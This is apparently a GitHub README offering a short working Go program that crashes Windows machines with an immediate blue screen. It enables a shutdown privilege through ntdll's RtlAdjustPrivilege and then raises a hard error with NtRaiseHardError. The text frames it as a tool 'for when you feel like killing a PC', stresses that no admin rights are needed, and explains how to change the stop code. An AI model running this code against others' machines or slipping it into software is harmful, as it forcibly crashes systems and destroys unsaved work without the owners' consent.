 ## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' Native API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privelege (level of importance) and invoking a hard-stop system level exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen (basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>
